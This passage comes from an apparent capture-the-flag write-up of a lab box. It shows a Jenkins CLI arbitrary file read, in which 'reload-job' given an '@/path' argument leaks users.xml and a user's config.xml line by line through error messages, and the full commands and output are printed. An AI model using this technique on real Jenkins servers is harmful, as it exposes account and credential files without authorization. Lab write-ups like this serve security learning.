 Jenkins [stores information](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa) about its user accounts in `/var/jenkins_home/users/users.xml`. Using `reload-node`, I’ll get the lines of that file, albeit a bit scrambed:

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
<?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
      <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such item ‘  <idToDirectoryNameMap class="concurrent-hash-map">’ exists.
    <entry>: No such item ‘    <entry>’ exists.
      <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
  <version>1</version>: No such item ‘  <version>1</version>’ exists.
</hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
  </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
<hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
    </entry>: No such item ‘    </entry>’ exists.

ERROR: Error occurred while performing this command, see previous stderr output.

```

Still, I can see a user “jennifer\_12108429903186576833”, which matches the jennifer user on the site [above](#site). That is a directory name and in it will be a `config.xml`:

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such item ‘    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">’ exists.
    <hudson.search.UserSearchProperty>: No such item ‘    <hudson.search.UserSearchProperty>’ exists.
      <roles>: No such item ‘      <roles>’ exists.
    <jenkins.security.seed.UserSeedProperty>: No such item ‘    <jenkins.security.seed.UserSeedProperty>’ exists.
      </tokenStore>: No such item ‘      </tokenStore>’ exists.
    </hudson.search.UserSearchProperty>: No such item ‘    </hudson.search.UserSearchProperty>’ exists.
      <timeZoneName></timeZoneName>: No such item ‘      <timeZoneName></timeZoneName>’ exists.
  <properties>: No such item ‘  <properties>’ exists.
    <jenkins.security.LastGrantedAuthoritiesProperty>: No such item ‘    <jenkins.security.LastGrantedAuthoritiesProperty>’ exists.
      <flags/>: No such item ‘      <flags/>’ exists.
    <hudson.model.MyViewsProperty>: No such item ‘    <hudson.model.MyViewsProperty>’ exists.
</user>: No such item ‘</user>’ exists.
    </jenkins.security.ApiTokenProperty>: No such item ‘    </jenkins.security.ApiTokenProperty>’ exists.
      <views>: No such item ‘      <views>’ exists.
        <string>authenticated</string>: No such item ‘        <string>authenticated</string>’ exists.
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">: No such item ‘    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">’ exists.
<user>: No such item ‘<user>’ exists.
          <name>all</name>: No such item ‘          <name>all</name>’ exists.
  <description></description>: No such item ‘  <description></description>’ exists.
      <emailAddress>jennifer@builder.htb</emailAddress>: No such item ‘      <emailAddress>jennifer@builder.htb</emailAddress>’ exists.
      <collapsed/>: No such item ‘      <collapsed/>’ exists.
    </jenkins.security.seed.UserSeedProperty>: No such item ‘    </jenkins.security.seed.UserSeedProperty>’ exists.
```